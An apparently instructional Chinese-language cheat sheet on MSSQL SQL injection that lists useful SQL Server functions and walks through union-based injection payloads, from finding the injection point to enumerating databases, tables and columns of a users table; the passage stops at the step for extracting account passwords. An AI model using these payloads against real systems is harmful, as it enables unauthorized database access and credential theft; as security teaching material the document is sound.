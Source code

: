 > **MSSQL 注释**

```
单行 --空格
多行 /**/
```

### 常用函数总结

| **名称**              | **功能**                                                     |
| :-------------------- | :----------------------------------------------------------- |
| suser_name()          | 用户登录名                                                   |
| user_name()           | 用户在数据库中的名字                                         |
| user                  | 用户在数据库中的名字                                         |
| db_name()             | 数据库名                                                     |
| @@version             | 返回SQL服务器版本相关信息                                    |
| quotename()           | 在存储过程中，给列名、表名等加个[]、’’等以保证sql语句能正常执行 |
| WAITFOR DELAY '0:0:n' | '时:分:秒'，WAITFOR DELAY '0:0:5'表示等待5秒后执行           |
| substring()           | 截取字符串 substr(字符串，开始截取位置，截取长度) ，例如substring('abcdef',1,2) 表示从第一位开始，截取2位，即 'ab' |



## 常见注入类型

### union联合查询注入

```
**1.判断注入点及类型** 
?id=1' and 1=1--+
?id=1' and 1=2--+
# 那么此处是字符型注入，需要单引号闭合

**2.判断字段数** 
?id=1' order by 3--+
?id=1' order by 4--+

**3.联合查询判断回显点** 
?id=0' union select 1,2,3--+

**4.获取当前数据库名字和版本信息** 
?id=0' union select 1,db_name(),@@version--+

**5.获取所有的数据库名** 
?id=0' union select 1,db_name(),name from master.sys.databases where name not in(select top 1 name 
from master.sys.databases)--+

**6.获取所有的表名** 
?id=0' union select top 1 1,2,table_name from information_schema.tables where table_name not in
(select top 1 table_name from information_schema.tables)--+

**7.获取所有的字段名** 
?id=0' union select top 1 1,2,column_name from information_schema.columns where column_name not in
(select top 1 column_name from information_schema.columns)--+

?id=0' union select top 1 1,2,column_name from information_schema.columns where table_name='users' and 
column_name not in(select top 2 column_name from information_schema.columns where table_name='users')--

**8.获取users表账号密码信息** 
```